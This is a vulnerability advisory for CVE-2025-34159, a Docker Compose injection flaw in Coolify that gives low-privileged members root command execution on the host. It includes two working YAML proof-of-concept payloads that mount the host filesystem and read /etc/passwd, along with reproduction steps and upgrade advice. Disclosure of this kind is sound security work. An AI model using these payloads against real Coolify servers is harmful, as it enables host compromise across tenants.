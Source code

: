 # CVE-2025-34159: Docker Compose Injection in Coolify

## Vulnerability Overview

| Field | Value |
|-------|-------|
| **CVE ID** | CVE-2025-34159 |
| **Affects** | Coolify ≤ v4.0.0-beta.420.6 |
| **Fixed in** | v4.0.0-beta.420.7 |
| **Severity** | Critical |
| **CVSS 4.0** | `CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:H/VI:H/VA:H/SC:H/SI:H/SA:H` |
| **CWE** | CWE-78 (OS Command Injection), CWE-20 (Improper Input Validation) |

---

## Executive Summary

A **critical Remote Code Execution (RCE)** vulnerability exists in Coolify's application deployment workflow. This flaw allows a low-privileged **member** to inject arbitrary **Docker Compose directives** during project creation or updates. By defining a malicious service that mounts the host filesystem, an attacker can achieve **root-level command execution on the host OS**, completely bypassing container isolation.

---

### Security Impact
- **Arbitrary command execution** on the host system with root privileges
- **Complete host compromise** including ability to read/write system files, establish persistence, and perform lateral movement
- **Multi-tenant security breach** potentially compromising other users and teams on the same instance
- **Bypass of security controls** rendering UI terminal access restrictions (403 controls) irrelevant
  
---

## Technical Details

### Affected Versions
- **Vulnerable Versions:** Coolify ≤ v4.0.0-beta.420.6
- **Patched Version:** v4.0.0-beta.420.7

### Attack Vector
The vulnerability exists in the project deployment workflow where user-supplied Docker Compose configurations are processed without sufficient validation or sandboxing.

---

## Proof of Concept

### PoC 1: Host Root Mount with Command Execution

```yaml
version: '3.8'
services:
  poc-host-root:
    image: alpine:3.19
    tty: true
    volumes:
      - /:/host:rw
    command: >
      sh -c "
        echo '[*] Proof of RCE on host' &&
        echo 'RCE by Eyodav' > /host/tmp/proof_rce.txt &&
        whoami &&
        id &&
        uname -a &&
        head -n 5 /host/etc/passwd
      "
```

**Result:** After deployment, `/tmp/proof_rce.txt` appears on the host system, confirming RCE with root privileges.

### PoC 2: Targeted Host Path Write

```yaml
version: '3.8'
services:
  poc-host-write:
    image: alpine:3.19
    tty: true
    volumes:
      - /home/eyodav/PoC:/host
    command: >
      sh -c "
        set -e;
        mkdir -p /host &&
        echo '[*] Writing PoC file to host mount...' &&
        echo RCE_PoC_from_container_$(date) > /host/RCE_PoC.txt &&
        cd /host &&
        pwd &&
        ls -la
      "
```

### Reproduction Steps

1. **Authenticate** as a member-level user (non-administrator)
2. **Create or edit** a project in Coolify
3. **Supply malicious configuration** using one of the Docker Compose payloads above
4. **Deploy** the project
5. **Verify exploitation** by checking for host-side artifacts (e.g., `/tmp/proof_rce.txt`) or reviewing command output in deployment logs

---

### Immediate Actions
1. **Upgrade immediately** to Coolify v4.0.0-beta.420.7 or later
2. **Review existing projects** for potentially malicious Docker Compose configurations
   
---

### References
- **Patch/Release Notes:** [https://github.com/coollabsio/coolify/releases/tag/v4.0.0-beta.420.7](https://github.com/coollabsio/coolify/releases/tag/v4.0.0-beta.420.7)
- **Advisory/PoC Repository:** [https://github.com/Eyodav/CVE-2025-34159](https://github.com/Eyodav/CVE-2025-34159)
